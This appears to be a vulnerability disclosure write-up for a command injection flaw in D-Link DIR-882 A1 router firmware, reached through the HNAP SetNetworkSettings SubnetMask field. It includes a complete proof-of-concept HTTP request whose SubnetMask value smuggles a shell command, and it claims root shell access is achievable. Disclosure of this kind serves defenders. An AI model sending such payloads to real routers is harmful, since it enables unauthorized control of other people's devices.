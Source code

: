# D-link DIR882A1_FW130B06.bin Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： [http://tsd.dlink.com.tw/GPL.asp](http://tsd.dlink.com.tw/GPL.asp)

## 1. Affected version

![image-20220405112631846](img/image-20220405112631846.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220405114315248](img/image-20220405114315248.png)

The program obtains the content through the / setnetworksettings / SubnetMask parameter and passes it to v7

![image-20220405114338908](img/image-20220405114338908.png)

Then V7 formats the matched content into v39 through the sprintf function, and finally executes the content in v39 through the system function. There is a command injection vulnerability

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware DIR882A1_FW130B06.bin
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress>192.168.5.1</IPAddress>
	<SubnetMask>&& ls > /tmp/456 &&echo 1</SubnetMask>
	<DeviceName>dlinkrouter</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>1</IPRangeStart>
	<IPRangeEnd>254</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

The reproduction results are as follows:

![image-20220405112133823](img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
